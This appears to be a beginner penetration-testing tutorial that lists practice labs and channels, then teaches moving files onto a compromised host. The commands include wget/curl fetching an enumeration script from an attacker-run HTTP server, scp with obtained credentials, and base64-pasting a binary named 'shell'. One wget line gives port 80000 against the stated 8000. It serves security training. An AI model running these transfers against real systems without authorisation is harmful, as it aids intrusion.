 # Starting Out
As a beginner in information security, it can be extremely daunting to know where to start. There are many great resources out there for beginners, including free and paid training, purposefully vulnerable machines and labs, tutorial websites, blogs, YouTube channels, etc.

# Resources
When starting, the sheer amount of content available on the web can be overwhelming. Furthermore, it isn't easy to know where to start and the quality of materials available.

## Vulnerable Machines/Applications
There are many resources available to practice common web and network vulnerabilities in a safe, controlled setting. The following are some examples of purposefully vulnerable web applications and vulnerable machines that we can set up in a lab environment for extra practice.

| Name             | Description                                                                                                                                                                           |
| -------------    |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| OWASP Juice Shop | Is a modern vulnerable web application written in Node.js, Express, and Angular which showcases the entire OWASP Top Ten along with many other real-world application security flaws. |
| Metasploitable 2 | Is a purposefully vulnerable Ubuntu Linux VM that can be used to practice enumeration, automated, and manual exploitation.                                                            |
| Metasploitable 3 | Is a template for building a vulnerable Windows VM configured with a wide range of vulnerabilities.                                                                                   | 
| DVWA             | This is a vulnerable PHP/MySQL web application showcasing many common web application vulnerabilities with varying degrees of difficulty.                                             | 

It is worth learning how to set these up in your lab environment to gain extra practice setting up VMs and working with common configurations such as setting up a web server. Aside from these vulnerable machines/applications, we can also set up many machines and applications in a lab environment to practice configuration, enumeration/exploitation, and remediation.

## YouTube Channels
There are many YouTube channels out there that showcase penetration testing/hacking techniques. A few worth bookmarking are:

| Name         | Description                                                                                                                                                  |
| -------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| IppSec       | Provides an extremely in-depth walkthrough of every retired HTB box packed full of insight from his own experience, as well as videos on various techniques. |
| VbScrub      | Provides HTB videos as well as videos on techniques, primarily focusing on Active Directory exploitation.                                                    |
| STÖK         | Provides videos on various infosec related topics, mainly focusing on bug bounties and web application penetration testing.                                  | 
| LiveOverflow | Provides videos on a wide variety of technical infosec topics.                                                                                               | 

# Transferring Files
During any penetration test exercise, it is likely that we will need to transfer files to a remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

While tools like Metasploit with a Meterpreter shell allow us to use the **Upload** command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget
There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host.

First we go into the directory that contains the file we need to transfer and run a Python HTTP server in it.

```
kieferhax@htb[/htb]$ cd /tmp
kieferhax@htb[/htb]$ python3 -m http.server 8000   

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:80000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[=======================>] 144.86K --.- KB/s in 0.02s

2021-02-08 18:09:19 (8.16 MD/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP *10.10.14.1* and the port our Python server runs on **8000**. If the remote server does not have **wget**, we can use **cURL** to download the file:

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## Using SCP
Another method to transfer files would be using **scp**, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
kieferhax@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Note that we specified the local file name after **scp**, and the remote directory will be saved to after the **:**.

## Using Base64
In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine.

In this type of situation, we can use a simple trick to *base64* encode the file into **base64** format, and then we can paste the **base64** string on the remote server and decode it. For example, if we wanted to transfer a binary file called **shell**, we can **base64** encode it as follows:

```
kieferhax@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now we can copy this **base64** string, go to the remote host, and use **base64 -d** to decode it, and pipe the output into a file:

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers
To validate the format of a file, we can run the **file** command on it:

```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

As we can see, when we run the **file** command on the **shell** file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash.  On our machine, we can run **md5sum** on it:

```
kieferhax@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Now we can go to the remote server and run the same command on the file we transferred:

```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly and without any issues.